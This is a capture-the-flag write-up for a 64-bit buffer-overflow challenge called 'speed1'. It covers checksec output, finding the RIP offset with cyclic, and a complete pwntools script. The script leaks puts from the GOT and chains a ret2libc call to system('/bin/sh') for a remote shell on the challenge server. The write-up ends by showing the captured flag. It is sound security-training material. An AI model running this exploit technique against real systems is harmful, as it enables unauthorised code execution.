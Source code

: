 This challenge ships a 64bit binary and a libc.so.6 file. So first we test the binary:

![binary crashes with big input-string](segfault.png)

Now we test the security of the binary:

```

$ checksec ./speed1
[*] '~/speed1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


We have to figure out the size of the buffer and the offset to RIP:

```
$ cyclic -n 8 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```
$ gdb ./speed1
entry
break fgets
c
```

![return address is 0x6161616161616166](speed-return-address.png)

```
$ cyclic -n 8 -l 0x6161616161616166
40
```

It's 40. Perfect.


![main address was 0x4010d0](main-address.png)


Since there is ASLR enabled we have to find a way to figure out the address of *system*. We can use a function of the Global Offset Table for that.

Using pwndbg to see the GOT entries:

![puts is in got](got-functions.png)


Now we prepare a two stage payload. First stage finds out the address of puts via GOT. We need to calculate the address for the system-function.  The second stage delivers the ret2libc-payload:

```python
#!/usr/bin/env python3

import os
from pwn import *
import pwnlib.elf

context.log_level = 'debug'
c = remote('speed-01.hfsc.tf',61000)
#c = process('./speed1')
# break: 0x40124d
# c = gdb.debug(['./speed1'], gdbscript='''
#         b *0x40124d
#         c
# ''')
libc = ELF('libc.so.6')
e = ELF('./speed1')

context.binary = e
context.os = 'linux'
context.arch = 'amd64'
rop = ROP(e)

c.recvuntil('b0fz:')

# padding for buffer overflow
rop.raw("A" * 40)
rop.puts(e.got['puts'])
rop.call(0x4010d0) # address of main/entrypoint
print(rop.dump())

info("Stage 1, leaking puts@libc address")
c.sendline(rop.chain())
leakedPuts = c.recvline()[:8].strip()

leakedPuts = int.from_bytes(leakedPuts, byteorder='little')
success(f'Leaked puts: {leakedPuts:x}')
libc.address = leakedPuts - libc.symbols['puts']
info(f"Libc Address: {libc.address:x}")

info("Stage 2, ret2shell")
c.recvuntil('b0fz:')
rop2 = ROP(libc)
rop2.call(rop.find_gadget(['ret']))
rop2.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])

padding = (b"A"*40)
payload = b"".join([padding, rop2.chain()])
c.sendline(payload)
c.interactive()
```


![the flag was midnight{b3ee4fd1e8b331a237b234395d1ad0a0}](got-flag.png)

